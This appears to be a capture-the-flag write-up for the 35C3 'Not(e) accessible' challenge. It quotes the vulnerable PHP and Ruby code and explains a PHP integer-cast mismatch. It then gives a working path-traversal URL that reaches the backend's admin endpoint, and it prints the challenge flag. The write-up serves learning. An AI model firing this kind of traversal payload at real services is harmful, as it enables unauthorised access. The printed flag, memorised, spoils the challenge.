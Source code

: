 # Not(e) accessible

>Solves: 130
>We love notes. They make our lifes more structured and easier to manage! In 2018 everything has to be digital, and that's why we built our very own note-taking system using micro services: Not(e) accessible! For security reasons, we generate a random note ID and password for each note.
>Recently, we received a report through our responsible disclosure program which claimed that our access control is bypassable...
>http://35.207.132.47:90
>Difficulti estimate: Easy-Medium

## Analysis

Site allows us to create notes, which can only be accessed through randomly generated id and password.
Id and password are supplied through GET parameters like this:  http://35.207.132.47:90/view.php?id=-3352688426888026302&pw=47bce5c74f589f4867dbd57e9ca9f808
In HTML source there is comment ```<!-- My source is at /src.tgz -->```
After unpacking archive we can see 2 folders: frontend and backend.

Backend folder contains app.rb file, which discovers what goal of this challenge is:

```ruby
require 'sinatra'
set :bind, '0.0.0.0'

get '/get/:id' do
	File.read("./notes/#{params['id']}.note")
end

get '/store/:id/:note' do 
	File.write("./notes/#{params['id']}.note", params['note'])
	puts "OK"
end 

get '/admin' do
	File.read("flag.txt")
end
```

We somehow need to send /admin request to backend app.
Frontend folder contains view.php and index.php. Former being more interesting to us:

```php
<?php header("Content-Type: text/plain"); ?>
<?php 
    require_once "config.php";
    if(isset($_GET['id']) && isset($_GET['pw'])) {
        $id = $_GET['id'];
        if(file_exists("./pws/" . (int) $id . ".pw")) {
            if(file_get_contents("./pws/" . (int) $id . ".pw") == $_GET['pw']) {
                echo file_get_contents($BACKEND . "get/" . $id);
            } else {
                die("ERROR!");
            }
        } else {
            die("ERROR!");
        }
    }
?>
```

## Solution

On line where there is check whether requested note file exists it casts id parameter to integer then concatenates it with file parameter:
```php
if(file_exists("./pws/" . (int) $id . ".pw")) {
```
When type casting to int php takes part up to first nondigit character , so if id parameter was "123abc789" it would be converted to 123.
Problem with this is that same conversion is not applied when making request to the backend:

```php
echo file_get_contents($BACKEND . "get/" . $id);
```

So what we can do is create regular note which we can access so we know the id (e.g http://35.207.132.47:90/view.php?id=1891374512036838750&pw=2af54305f183778d87de0c70c591fae4)
then modify id parameter beyond digits so we request admin:
```http://35.207.132.47:90/view.php?id=-3352688426888026302%2f..%2f..%2fadmin&pw=47bce5c74f589f4867dbd57e9ca9f808```

"/" had to be url encoded cause otherwise browser would mistake it for new directory (therefore %2f).

35C3_M1Cr0_S3rvices_4R3_FUN!
